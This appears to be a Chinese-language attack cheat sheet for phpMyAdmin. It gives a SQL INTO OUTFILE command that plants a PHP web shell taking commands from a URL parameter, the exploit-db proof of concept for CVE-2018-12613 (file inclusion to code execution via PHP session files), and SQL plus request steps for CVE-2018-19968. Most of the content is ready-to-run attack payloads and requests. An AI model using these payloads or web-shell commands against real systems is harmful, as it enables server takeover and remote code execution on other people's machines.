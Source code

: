 # 高权限直接写shell
```
select "<?php system($_GET['cmd']);?>" into outfile "/var/www/html/getshell.php";
```
需要满足的条件
- 网站的绝对路径。
- 拥有可写权限
- 是union注入(如果是注入的话)


# CVE-2018-12613 本地文件包含 Version: 4.8.0, 4.8.1
https://www.exploit-db.com/exploits/40185
```
# Exploit Title: phpMyAdmin 4.8.1 - Local File Inclusion to Remote Code Execution
# Date: 2018-06-21
# Exploit Author: VulnSpy
# Vendor Homepage: http://www.phpmyadmin.net
# Software Link: https://github.com/phpmyadmin/phpmyadmin/archive/RELEASE_4_8_1.tar.gz
# Version: 4.8.0, 4.8.1
# Tested on: php7 mysql5
# CVE : CVE-2018-12613

1. Run SQL Query : select '<?php phpinfo();exit;?>'
2. Include the session file :
http://1a23009a9c9e959d9c70932bb9f634eb.vsplate.me/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_11njnj4253qq93vjm9q93nvc7p2lq82k
```


# CVE-2018-19968 远程代码执行文件包含  Version: 4.8.0 ~ 4.8.3
```
#执行SQL
CREATE DATABASE foo;
CREATE TABLE foo.bar ( baz VARCHAR(100) PRIMARY KEY );
INSERT INTO foo.bar SELECT ‘<?php phpinfo(); ?>’;
#访问
/chk_rel.php?fixall_pmadb=1&db=foo
#执行SQL，注意这里***换成phpmyadmin的cookie
INSERT INTO `pma__column_info`SELECT '1', 'foo', 'bar', 'baz', 'plop',
'plop', 'plop', 'plop',
'../../../../../../../../tmp/sess_***','plop';
#访问
/tbl_replace.php?db=foo&table=bar&where_clause=1=1&fields_name[multi_edit][][]=baz&clause_is_unique=1
```

